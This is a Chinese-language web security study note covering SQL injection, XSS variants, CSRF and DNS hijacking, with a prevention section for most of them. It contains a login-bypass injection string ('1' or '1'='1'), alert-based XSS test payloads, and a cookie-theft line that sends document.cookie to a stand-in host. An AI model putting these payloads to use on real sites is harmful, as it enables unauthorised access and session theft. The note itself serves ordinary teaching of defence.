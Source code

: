`1.SQL注入攻击`  
没有对用户的输入进行合法性判断。  
用户可以输入一段数据库查询代码，根据程序返回的结果，获取他想得知的数据。  
> SQL注入攻击的总体思路：
-  发现SQL注入位置
- 判断后台数据库类型
- 确定XP_CMDSHELL可执行情况
- 发现WEB虚拟目录
- 上传ASP木马
- 得到管理员权限

> 举个例子
```
某个网站的登录验证的SQL查询代码为：
strSQL = "SELECT * FROM users WHERE (name = '" + username + "') and (pwd = '" + password + "')";
恶意填入
userName = " 1' or '1' = '1 " 与 pwd = " 1' or '1' = '1 "
将导致原本的SQL字符串被填充为
strSQL = "SELECT * FROM users WHERE (name = '1' or '1' = '1') and (pwd = '1' or '1' = '1')"
可就是实际运行的SQL命令为
strSQL = "SELECT * FROM users"
因此达到无账号密码，也可登录网站。SQL注入攻击被俗称为 黑客的填空游戏。
安全写法，写成???? 而不是多个引号。
```

> 如何预防SQL注入
- 输入验证是指要验证所有应用程序接收到的输入是否合法。
- 有两中不同类型的输入验证方法：白名单和黑名单验证
  - 白名单验证：比如id值，那么我们判断它是否为数字。
  - 黑名单验证：使用正则表达式禁止使用某些字符和字符串
- 应该尽量使用白名单，对于无法使用白名单的，使用黑名单提供局部限制。
- 敏感数据在数据库中加密存放
---

`2.跨站脚本XSS`  
黑客通过HTML注入篡改了页面，插入恶意脚本。
> 反射型XSS攻击  
- 一般会放在请求或者跳转的链接中，一次性造成攻击。  
- 在页面搜索框中输入`"/><script>alert('这是一个反射型XSS攻击')</script>`后点击确定，会弹出提示框。

> 存储式XSS攻击  
- 存储型XSS是指将恶意用户输入的脚本存到了数据库，当用到这条数据的时候，其中包含的脚本就会执行，并且只要数据库没有删除，那么这种攻击将一直存在，我们称这种XSS具有很强的稳定性。
- 新建用户，描述中输入`"/><script>alert("这是一个存储型xss攻击")</script>`保存后，后面的用户打开用户管理页面，查看到刚添加的用户所在页，都会弹出提示框。

> DOM Based XSS
- 改变了DOM的结构。
- `<a href = '来自用户输入'>点击</a>`  ---->
- `<a href='` + `'><div>12121212</div><'` +`'>点击</a>`

> cookie劫持
- XSS攻击者通过植入一段js脚本  
- `***src = "http://www.xss.com/log?"+escape(document.cookie)***`

> XSS钓鱼
- 钓鱼网站相信大家都不陌生，攻击者通过仿造一个和源站极度相似的网站来诱使被攻击者输入用户名密码。

> XSS Worm
- 蠕虫可以在短时间内感染互联网上的其他联网设备。
  
> 预防
- 将重要的cookie标记为http only, 这样的话Javascript 中的document.cookie语句就不能获取到cookie了。
- 表单数据规定值的类型。
- 对数据进行Html Encode 处理。
- 过滤或移除特殊的Html标签，例如: `<script>, <iframe> , &lt; for <, &gt; for >, &quot for`。
- 过滤JavaScript 事件的标签。例如 "onclick=", "onfocus" 等等。
---

`3.跨站请求伪造CSRF`
- 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。
- 跟跨网站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF利用的是网站对用户网页浏览器的信任。
- 跨站请求攻击，简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并运行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去运行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

> 预防
- `查询Referer字段`
  - HTTP头中有一个Referer字段，这个字段用以标明请求来源于哪个地址。
  - 在处理敏感数据请求时，通常来说，Referer字段应和请求的地址位于同一域名下。
  - 如果是CSRF攻击传来的请求，Referer字段会是包含恶意网址的地址，这时候服务器就能识别出恶意的访问。
- `添加校验token`
  - 如果要求在访问敏感数据请求时，要求用户浏览器提供不保存在cookie中，并且攻击者无法伪造的数据作为校验。
  - 服务器将其生成并附加在窗体中，其内容是一个伪随机数。当客户端通过窗体提交请求时，这个伪随机数也一并提交上去以供校验。正常的访问时，客户端浏览器能够正确得到并传回这个伪随机数，而通过CSRF传来的欺骗性攻击中，攻击者无从事先得知这个伪随机数的值，服务端就会因为校验token的值为空或者错误，拒绝这个可疑请求。
---

`4.DNS劫持`
- 域名劫持是互联网攻击的一种方式，通过攻击域名解析服务器（DNS），或伪造域名解析服务器（DNS）的方法，把目标网站域名解析到错误的地址从而实现用户无法访问目标网站的目的。
